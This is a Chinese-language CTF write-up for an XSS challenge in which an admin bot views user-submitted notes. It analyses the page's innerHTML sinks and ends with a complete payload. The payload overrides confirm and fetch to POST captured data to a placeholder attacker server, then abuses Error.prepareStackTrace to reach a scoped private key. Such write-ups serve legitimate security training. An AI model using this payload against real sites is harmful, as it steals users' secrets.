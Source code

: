 ## 基本信息

- 题目名称：[NSSRound#13]TimeTrcer
- 题目链接: https://www.nssctf.cn/problem/4081
- 考点清单: 高级XSS技巧、JavaScript作用域漏洞
- 工具清单：无
- 难度: 困难

## 一、看到什么

**题目关键信息列表**：

打开靶机，查看首页：

![](./images/3-19题目wp_index-2.png)

页面提示需要hash和私钥才能获得有效认证。

查看源码，发现出题人的提示：

![](./images/3-19题目wp_hint.png)

通过提示我们得知：

1. 这是一道XSS题目
2. 获取flag需要最高权限(admin)
3. 需要构造XSS payload
4. 可能需要获取admin的私钥

分析页面JavaScript代码：

![](./images/3-19题目wp_js.png)

代码处理笔记的创建和访问，涉及hash和privateKey。

## 二、想到什么解题思路

在首页的note中构造相应的xss的payload来尝试去获取高权限（admin）的私钥

## 三、尝试过程和结果记录

**尝试过程：**

1. 创建一个测试笔记：

![](./images/3-19题目wp_note.png)

系统创建了笔记并提供了链接和私钥。

2. 点击笔记链接，发现页面有以下特点：

![](./images/3-19题目wp_report.png)

页面显示"Admin bot will view your note"，这是一个典型的XSS靶场设置。

3. 关键JavaScript代码分析 (1/2)

查看笔记页面的JavaScript：

```javascript
let hash = new URLSearchParams(location.search).get('hash');
let privateKey = prompt('Provide your Key');

if (confirm('Using this pirvateKey? Cancel For retype')) {
  var data = await( await fetch(`/api/viewNote/${hash}`,{
    method: 'POST', 
    headers: {"Content-Type":"application/json"},
    body: JSON.stringify({privateKey: privateKey})
  })).json();
}
```

这段代码：

1. 获取URL中的hash参数
2. 要求用户输入privateKey
3. 确认使用这个privateKey
4. 向服务器发送请求获取笔记内容
5. privateKey变量在内部作用域中，难以直接访问

4. 关键JavaScript代码分析 (2/2)

继续分析JavaScript：

```javascript
title.innerHTML = data.message.title;
await sleep(500); // 故意延迟500毫秒
content.innerHTML = data.message.content;

report.onclick = async () => {
  alert(await (await fetch(`/api/report/${hash}`)).text());
}
```

代码中存在明显的XSS漏洞：

1. 使用`innerHTML`直接渲染未过滤的内容
2. 有意设置了500ms的延迟
3. 先设置title再设置content
4. "report"按钮调用后会让admin查看笔记
5. 需要在执行过程中提取privateKey

5. 解题难点分析

这道题目的主要挑战在于：

1. **作用域问题**：需要从内部函数作用域获取privateKey变量
2. **执行时机**：需要在函数执行完成前触发我们的代码
3. **错误触发**：需要精确控制错误发生的位置
4. **数据外带**：需要将获取的私钥发送到我们控制的服务器

要解决这些问题，我们需要结合多种高级JavaScript技巧。

6. 解题思路

利用`Error.prepareStackTrace`方法获取调用栈：

```javascript
Error.prepareStackTrace = (_, callsites) => {
  callsites.forEach((callsite) => {
    // 可以通过callsite.getFunction()获取函数引用
  });
};
```

使用`<img>`标签的`onerror`事件确保我们的代码尽早执行：

```javascript
<img src="" onerror="/* 我们的代码 */" />
```

这比`<script>`标签更可靠，因为图片加载失败会立即触发。

通过将`content`元素设为`undefined`，当代码执行到：

```javascript
content.innerHTML = data.message.content;
```
将触发错误，从而执行我们设置的`Error.prepareStackTrace`函数。

重写`fetch`函数，将privateKey发送到攻击者服务器：

```javascript
var fakefetch = window.fetch;
window.fetch = async (...args) => {
  await fakefetch('http://攻击者服务器', {
    method: 'POST',
    mode: 'no-cors',
    body: JSON.stringify(args),
  });
};
```

完整XSS Payload

```html
<img src="" onerror="window.confirm=(a)=>{return true;};
var fakefetch = window.fetch; 
window.fetch = async (...args) => {
  await fakefetch('http://ip:port', {
    method: 'POST',
    mode: 'no-cors',
    body: JSON.stringify(args),
  }); 
}; 
window.content = undefined; 
var fetched = false; 
Error.prepareStackTrace = (_, callsites) => {
  console.log('jacked');
  callsites.forEach((callsite) => {
    if(fetched == false){
      callsite.getFunction()(); 
      fetched =true
    }
  }); 
};" />
```

## 四、总结与反思：

操作流程：

1. 创建笔记，标题中插入XSS payload
2. 设置笔记内容为任意值
3. 点击report按钮让admin查看笔记
4. admin访问笔记页面
5. 图片加载失败，触发onerror事件
6. payload重写confirm函数，总是返回true
7. 重写fetch函数，将请求数据发送到攻击者服务器
8. 将content设为undefined，引发错误
9. 报错触发Error.prepareStackTrace处理
10. 通过callsite.getFunction()()执行内部作用域函数
11. 重写的fetch函数将privateKey发送到攻击者服务器